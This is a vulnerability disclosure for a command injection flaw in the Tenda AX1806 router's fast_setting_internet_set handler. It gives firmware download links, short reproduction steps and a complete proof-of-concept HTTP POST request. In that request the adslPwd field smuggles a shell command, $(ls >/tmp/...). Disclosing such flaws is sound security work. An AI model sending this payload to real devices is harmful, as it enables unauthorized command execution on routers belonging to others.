

# ***\*Tenda ax1806 has command injection vulnerability\****

## ***\*summary****

• ***\*type\****：命令注入漏洞

• ***\*supplier\****：腾达（https://tenda.com.cn）

• ***\*product\****: WiFi router ax1806

• ***\*Firmware download address:：\**** https://www.tenda.com.cn/download/detail-3306.html

• ***\*Firmware download address:\****https://down.tenda.com.cn/uploadfile/AX1806/US_AX1806V21brv1001cn2988ZGDX01.zip

Tengda AX1806 uses a new generation of WIFI6 (802.11ax) technology, and combines higher number of subcarriers and 1024QAM modulation technology. Compared with wifi-5 routers, dual-band wireless internet access rate is greatly improved. fast_setting_internet_set has a Command Execution Vulnerability


## ***\*Description\****

### ****1, Product Information:\****

Overview of the latest version of Tenda AX1806 router simulation:



 

 

 

### ****2. Vulnerability Details\****

Tenda AX1806 was found in fast_setting_internet_set Command injection vulnerability in set function


When we set netWanType=2, we get a command injection vulnerability when we log in.


## ***\*3. Recurring loopholes and POC\****

To reproduce the vulnerability, the following steps can be followed:

Start firmware (real machine) via qemu-system or other means

Attack using the following POC attacks

Note the replacement of password fields in cookies

```
POST /goform/fast_setting_internet_set
?0.20172657847322262 HTTP/1.1
Host: 192.168.10.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 183
Origin: http://192.168.10.1
Connection: close
Referer: http://192.168.10.1/main.html
Cookie: password=bb507bf3973a97a9bf1267699f712550vsbtgb

netWanType=2&adslUser=asd&adslPwd=$(ls >/tmp/ccccccccccccccccccccc)&vpnServer=&vpnUser=&vpnPwd=&vpnWanType=1&dnsAuto=1&staticIp=&mask=&gateway=&dns1=&dns2=&module=wan1&downSpeedLimit=
```


